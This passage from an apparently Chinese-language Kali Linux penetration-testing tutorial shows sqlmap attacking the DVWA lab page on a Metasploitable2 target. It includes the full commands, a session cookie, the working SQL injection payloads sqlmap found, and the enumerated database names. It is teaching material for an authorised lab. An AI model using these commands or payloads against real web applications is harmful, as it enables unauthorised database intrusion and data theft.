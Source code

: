 为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

### 操作步骤

为了使用 sqlmap 来测试 HTTP GET 方法参数，你需要使用`-u`参数以及要测试的 URL。这个 URL 应该包含任何 GET 方法参数。此外，如果 Web 内容仅仅通过建立的会话来方法，还需要使用`--cookie`提供与会话对应的 Cookie。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 
                                ** {CUT} ** 
sqlmap identified the following injection points with a total of 279 HTTP(s) requests: 
--
Place: GET 
Parameter: id
    Type: boolean-based blind    
    Title: OR boolean-based blind - WHERE or HAVING clause    
    Payload: id=-2345' OR (1644=1644) AND 'moHu'='moHu&Submit=y
    
    Type: error-based    
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    
    Payload: id=x' AND (SELECT 1537 FROM(SELECT COUNT(*),CONCAT(0x3a6b6f 683a,(SELECT (CASE WHEN (1537=1537) THEN 1 ELSE 0 END)),0x3a696a793a,FLO OR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'VHVT'='VHVT&Submit=y
    
    Type: UNION query    
    Title: MySQL UNION query (NULL) - 2 columns    
    Payload: id=x' UNION ALL SELECT CONCAT(0x3a6b6f683a,0x7979634f4e716b7 55961,0x3a696a793a),NULL#&Submit=y
    
    Type: AND/OR time-based blind    
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)    
    Payload: id=x' AND 5276=BENCHMARK(5000000,MD5(0x704b5772)) AND 'XiQP'='XiQP&Submit=y 
--

                            ** {TRUNCATED} ** 
```

上面的例子使用了`risk`值`3`和`level`值`5`。这些值定义了所执行测试的风险性和彻底性。更多`risk`和`level`的信息请参考 sqlmap 手册页和帮助文件。执行测试时，sqlmap 会快速将后端数据库识别为 MySQL，并跳过其它测试。如果没有指定任何操作，sqlmap 会仅仅判断是否任何参数存在漏洞，像上个例子那样。在一系列注入尝试之后，sqlmap 判断出`ID`参数存在多种类型的 SQL 注入漏洞。在确认漏洞之后，sqlmap 会执行操作来提取后端数据库的信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dbs 
                            ** {CUT} ** 

--
[03:38:00] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron) 
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
[03:38:00] [INFO] fetching database names 
[03:38:00] [WARNING] reflective value(s) found and filtering out 
available databases [7]: 
[*] dvwa
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195
                            ** {TRUNCATED} ** 
```